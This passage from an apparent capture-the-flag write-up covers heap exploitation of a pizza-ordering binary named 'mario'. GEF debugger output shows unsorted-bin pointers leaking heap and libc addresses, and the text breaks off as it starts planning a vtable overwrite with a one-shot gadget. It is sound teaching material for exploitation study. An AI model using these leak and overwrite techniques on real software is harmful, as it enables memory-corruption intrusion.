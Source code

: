 There we can see that for the addresses for the forward and back pointers, one is a heap address `0x5585e95890a0` and the other is a libc address `0x7f3b0636db78` (the one which will be leaked is the heap address). The reason for the heap infoleak is that there is another freed entry in the unsorted bin due to a vector resizing. However with a bit of heap grooming we can also leak a libc address using this method, by simply creating a new customer, ordering one tomato pizza, and running the function that gives us an infoleak. When we do that, we see that the forward and back pointers both point to main_arena, thus giving us a libc infoleak:

```
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x5585e92c5474                  mov    rsi, rax
   0x5585e92c5477                  lea    rdi, [rip+0x56e2]        # 0x5585e92cab60
   0x5585e92c547e                  mov    eax, 0x0
 → 0x5585e92c5483                  call   0x5585e92c44a8
   ↳  0x5585e92c44a8                  jmp    QWORD PTR [rip+0x20a9da]        # 0x5585e94cee88
      0x5585e92c44ae                  xchg   ax, ax
      0x5585e92c44b0                  jmp    QWORD PTR [rip+0x20a9da]        # 0x5585e94cee90
      0x5585e92c44b6                  xchg   ax, ax
      0x5585e92c44b8                  jmp    QWORD PTR [rip+0x20a9da]        # 0x5585e94cee98
      0x5585e92c44be                  xchg   ax, ax
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
0x5585e92c44a8 (
   $rdi = 0x00005585e92cab60 → "'That must be a mistake', you may say. But I asked[...]",
   $rsi = 0x00005585e9588130 → 0x00007f3b0636db78 → 0x00005585e9589720 → 0x0000000000000000,
   $rdx = 0x00007f3b0636f780 → 0x0000000000000000
)
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "mario", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x5585e92c5483 → call 0x5585e92c44a8
[#1] 0x7ffcbeade960 → sub cl, 0xad
[#2] 0x5585e92c4ec8 → jmp 0x5585e92c4ef2
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/10g 0x00005585e9588130
0x5585e9588130:	0x7f3b0636db78	0x7f3b0636db78
0x5585e9588140:	0x3131313131313131	0x3131313131313131
0x5585e9588150:	0x3131313131313131	0x3131313131313131
0x5585e9588160:	0x3131313131313131	0x3131313131313131
0x5585e9588170:	0x3131313131313131	0x3131313131313131
```

So with that, we can get both a libc and heap infoleak.

### exploit - vtable overwrite

So we are going to use the heap overflow to overwrite a vtable function with a oneshot gadget. Before that happens, let's take a look where exactly the pointer we are overwriting is. I set a breakpoint for `0x3018`:
